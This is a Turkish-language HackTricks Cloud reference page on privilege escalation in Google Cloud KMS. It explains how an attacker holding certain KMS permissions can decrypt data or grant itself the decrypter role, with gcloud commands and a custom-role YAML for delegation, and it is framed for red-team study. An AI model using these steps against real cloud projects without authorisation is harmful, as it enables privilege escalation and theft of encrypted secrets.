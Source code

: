 # GCP - KMS Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## KMS

KMS hakkında bilgi:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

KMS'de **izinlerin** yalnızca Organizasyonlar, Klasörler ve Projelerden değil, aynı zamanda **Anahtar Halkalarından** da **devralındığını** unutmayın.

### `cloudkms.cryptoKeyVersions.useToDecrypt`

Bu izni, üzerinde bu izne sahip olduğunuz anahtarla **bilgileri şifre çözmek için** kullanabilirsiniz.
```bash
gcloud kms decrypt \
--location=[LOCATION] \
--keyring=[KEYRING_NAME] \
--key=[KEY_NAME] \
--version=[KEY_VERSION] \
--ciphertext-file=[ENCRYPTED_FILE_PATH] \
--plaintext-file=[DECRYPTED_FILE_PATH]
```
### `cloudkms.cryptoKeys.setIamPolicy`

Bu izne sahip bir saldırgan, **kendisine izinler verebilir** ve anahtarı kullanarak bilgileri şifrelerini çözebilir.
```bash
gcloud kms keys add-iam-policy-binding [KEY_NAME] \
--location [LOCATION] \
--keyring [KEYRING_NAME] \
--member [MEMBER] \
--role roles/cloudkms.cryptoKeyDecrypter
```
### `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation`

Bu delegasyonun nasıl çalıştığına dair kavramsal bir açıklama:

1. **Hizmet Hesabı A**, KMS'deki belirli bir anahtarı kullanarak şifre çözme işlemi için doğrudan erişime sahiptir.
2. **Hizmet Hesabı B**, `useToDecryptViaDelegation` iznine sahiptir. Bu, Hizmet Hesabı A adına KMS'den veri şifre çözme talep etmesine olanak tanır.

Bu **izin, KMS hizmetinin bir şifre çözme talebi yapıldığında izinleri kontrol etme şekliyle örtük olarak kullanılır**.

Google Cloud KMS API'sini (Python veya başka bir dilde) kullanarak standart bir şifre çözme talebi yaptığınızda, hizmet **talep eden hizmet hesabının gerekli izinlere sahip olup olmadığını kontrol eder**. Eğer talep, **`useToDecryptViaDelegation`** iznine sahip bir hizmet hesabı tarafından yapılırsa, KMS bu **hesabın anahtarın sahibi adına şifre çözme talep etmesine izin verilip verilmediğini doğrular**.

#### Delegasyon İçin Ayarlama

1. **Özel Rolü Tanımlayın**: Özel rolü tanımlayan bir YAML dosyası oluşturun (örneğin, `custom_role.yaml`). Bu dosya, `cloudkms.cryptoKeyVersions.useToDecryptViaDelegation` iznini içermelidir. Bu dosyanın nasıl görünebileceğine dair bir örnek:
```yaml
title: "KMS Decryption via Delegation"
description: "Allows decryption via delegation"
stage: "GA"
includedPermissions:
- "cloudkms.cryptoKeyVersions.useToDecryptViaDelegation"
```
2. **Özel Rolü gcloud CLI Kullanarak Oluşturun**: Google Cloud projenizde özel rolü oluşturmak için aşağıdaki komutu kullanın:

{% code overflow="wrap" %}
```bash
gcloud iam roles create kms_decryptor_via_delegation --project [YOUR_PROJECT_ID] --file custom_role.yaml
```
{% endcode %}

`[YOUR_PROJECT_ID]` kısmını Google Cloud proje kimliğinizle değiştirin.

3. **Özel Rolü Bir Hizmet Hesabına Verin**: Bu izni kullanacak bir hizmet hesabına özel rolünüzü atayın. Aşağıdaki komutu kullanın:
```bash
# Give this permission to the service account to impersonate
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member "serviceAccount:[SERVICE_ACCOUNT_B_EMAIL]" \
--role "projects/[PROJECT_ID]/roles/[CUSTOM_ROLE_ID]"

# Give this permission over the project to be able to impersonate any SA
gcloud projects add-iam-policy-binding [YOUR_PROJECT_ID] \
--member="serviceAccount:[SERVICE_ACCOUNT_EMAIL]" \
--role="projects/[YOUR_PROJECT_ID]/roles/kms_decryptor_via_delegation"
```
`[YOUR_PROJECT_ID]` ve `[SERVICE_ACCOUNT_EMAIL]` değerlerini sırasıyla proje kimliğiniz ve hizmet hesabının e-posta adresi ile değiştirin.

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
